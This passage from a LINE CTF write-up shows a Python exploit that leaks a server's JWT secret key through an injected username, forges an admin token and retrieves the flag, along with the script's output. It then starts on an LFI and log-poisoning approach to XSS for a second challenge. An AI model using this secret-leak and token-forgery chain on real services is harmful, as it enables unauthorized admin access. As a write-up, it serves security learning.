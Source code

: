 ```python
            print('[+] 500 Inter Server Error')
    except:
         print('[+] 500 Inter Server Error')

def FLAG(ADMIN_TOKEN):
    header = {'X-Token':ADMIN_TOKEN}
    RESULT = SESSION.get('http://34.146.226.125/flag', headers=header).json()
    FLAG = RESULT['msg'].split('flag is ')[1]
    print(f'[-] FLAG : {FLAG}')

def JWT_ENCODE(ID, SECRET_KEY):
    AccountClaims = {
        "id": ID,
        "is_admin": True
    }
    jwt_token = jwt.encode(key=SECRET_KEY, algorithm='HS256', payload=AccountClaims)
    return jwt_token

if __name__ == '__main__':
    print('[+] Exploit')
    REGIST(USERNAME, PASSWORD)
    print('[+] Leak the SECRET_KEY')
    SECRET_KEY = LOGIN(USERNAME, PASSWORD)
    print(f'[-] SECRET_KEY : {SECRET_KEY}')
    print('[+] Generate the JWT of ADMIN')
    ADMIN_JWT = JWT_ENCODE(USERNAME, SECRET_KEY).decode('utf-8')
    print(f'[-] ADMIN_JWT : {ADMIN_JWT}')
    print('[+] Leak the FLAG')
    FLAG(ADMIN_JWT)
```
I wrote the exploit code as above.

```sh
❯ python3 exploit.py
[+] Exploit
[+] Register Success : {{  .      }}
[+] Leak the SECRET_KEY
[+] TOKEN : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7ICAuICAgICAgfX0iLCJpc19hZG1pbiI6ZmFsc2V9.thRcBQoJEZUgNF04UMNBYjzww7307fKjCF514rJ0k-0
[-] SECRET_KEY : fasdf972u1031xu90zm10Av
[+] Generate the JWT of ADMIN
[-] ADMIN_JWT : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6Int7ICAuICAgICAgfX0iLCJpc19hZG1pbiI6dHJ1ZX0.ORLfPXc2HWIjMsORBcoRCRVbsiDJCWC_kntbOAOWXhw
[+] Leak the FLAG
[-] FLAG : LINECTF{country_roads_takes_me_home}
```

---
### (Web) online-library

The online-library is a challenge to trigger XSS using a memory dump file. I have tried this challenge for over 10 hours. Since the LFI vulnerability occurs in this challenge, I tried to insert and trigger an XSS PoC in the log using log poisoning. So I deployed the challenge with docker, and kept looking for all the log related files.
